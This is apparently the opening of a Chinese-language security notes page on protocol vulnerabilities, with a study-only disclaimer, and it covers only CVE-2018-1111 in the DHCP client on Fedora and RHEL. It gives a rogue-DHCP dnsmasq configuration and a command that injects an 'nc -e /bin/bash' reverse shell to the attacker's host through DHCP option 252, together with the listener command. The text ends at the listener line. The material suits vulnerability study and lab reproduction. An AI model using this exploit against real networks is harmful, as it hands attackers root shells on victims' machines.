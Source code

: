 # 协议安全

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* [DHCP](#dhcp)
* [DNS](#dns)
* [ipv6](#ipv6)
* [LDAP](#ldap)
* [SMB](#smb)
* [PPTP](#pptp)
* [SMTP](#smtp)
* [SNMP](#snmp)
* [SSH](#ssh)
* [SSL](#ssl)
* [VNC](#vnc)

---

# DHCP

**CVE-2018-1111** DHCP 客户端脚本代码执行漏洞
- 简介

    Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
